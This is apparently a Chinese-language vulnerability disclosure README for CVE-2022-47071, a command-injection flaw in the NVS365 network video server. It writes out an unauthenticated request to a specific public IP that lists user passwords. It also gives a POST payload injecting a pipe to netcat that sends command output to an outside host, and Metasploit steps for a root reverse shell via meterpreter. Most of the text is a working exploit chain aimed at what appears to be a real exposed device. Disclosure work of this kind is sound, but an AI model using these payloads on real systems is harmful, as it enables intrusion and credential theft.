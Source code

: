 # NVS365网络视频服务器后台任意命令执行漏洞(CVE-2022-47071)

# [CVSS:9.8分:点击跳转](https://nvd.nist.gov/vuln/detail/CVE-2022-47071 )


# [该漏洞关联上一份漏洞 《NVS365网络视频服务器密码信息未授权访问漏洞》](https://github.com/Sylon001/NVS-365-Camera/tree/master/NVS365%20Network%20Video%20Server%20Password%20Information%20Unauthorized%20Access%20Vulnerability)

其实也不用关联
后面发现不需要登陆也可以触发命令执行漏洞，只需要请求url和提交data就行

NVS365 是一种数字媒体服务器，允许通过局域网 (LAN)
或互联网分发视频和音频。

官网：

<http://www.nvs365.com/>

![](./images/media/image1.png){width="5.764583333333333in"
height="1.9277777777777778in"}

漏洞版本：

NVS-365-V01

![](./images/media/image2.png){width="5.764583333333333in"
height="3.66875in"}

该漏洞可任意触发任意命令，获取服务器shell等

[http://188.59.188.232:8085/?jcpcmd=userpasswd%20-act%20list](http://188.59.188.232:8085/?jcpcmd=userpasswd -act list)

![](./images/media/3.jpg){width="5.760416666666667in"
height="0.9388888888888889in"}

在网络管理这块 可直接触发RCE漏洞

![](./images/media/4.jpg){width="5.764583333333333in"
height="2.6305555555555555in"}


触发命令执行命令

Pwd:

result=%09%09&address=\|pwd\|nc ip 端口 &size=16

![lQLPJxSMXaaSNu5bzQVWsJRF7Rolhi8uA4XLQJdAZgA_1366_91](./images/media/9.jpg){width="5.7625in"
height="0.3840277777777778in"}

Uname -a

![](./images/media/10.jpg){width="5.761111111111111in"
height="3.9583333333333335in"}

Id: root权限

![](./images/media/11.jpg){width="5.758333333333334in"
height="2.7375in"}

上传shell，metasploit生成linux ram木马

![](./images/media/12.jpg){width="5.7625in"
height="3.7423611111111112in"}

Msf监听：

msf \> use exploit/multi/handler

msf \> set payload linux/armle/meterpreter/reverse_tcp

msf \> set LHOST xxx.xxx.xxx.xxx

msf \> set PORT 4466

msf \> run

![](./images/media/13.jpg){width="5.763194444444444in"
height="5.479166666666667in"}

进入shell

![](./images/media/image14.png){width="2.8645833333333335in"
height="0.875in"}

